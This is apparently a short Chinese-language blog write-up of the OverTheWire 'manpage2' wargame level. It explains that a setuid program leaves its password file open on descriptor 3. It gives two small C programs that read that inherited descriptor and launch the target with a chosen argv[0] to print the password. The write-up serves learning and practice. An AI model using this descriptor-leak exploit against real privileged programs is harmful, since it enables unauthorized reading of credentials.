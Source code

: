 ```yaml
---
title: manpage2
author: rk700
layout: post
categories: 
  - writeup
tags: 
  - OverTheWire
  - exploit
---
```

问题出在，密码文件打开之后没有关闭，而fd是可以从exec继承的。于是我们先写一个读文件内容的程序 

{% highlight c %}
#include <unistd.h>

int main () {
    char buf[64];
    lseek(3, 0, SEEK_SET);
    ssize_t num;
    while((num=read(3,buf,sizeof buf)) > 0)
        write(STDOUT_FILENO, buf, num);
    return 0;
}
{% endhighlight %}

这里fd是3因为打开的密码文件的fd应该是接着0,1,2

然后执行manpage2的程序，让argv[0]为我们的读密码程序 

{% highlight c %}
#include <unistd.h>

int main (int argc, char *args[]) {
    execl("/manpage/manpage2", "./getPass", NULL);
}
{% endhighlight %}

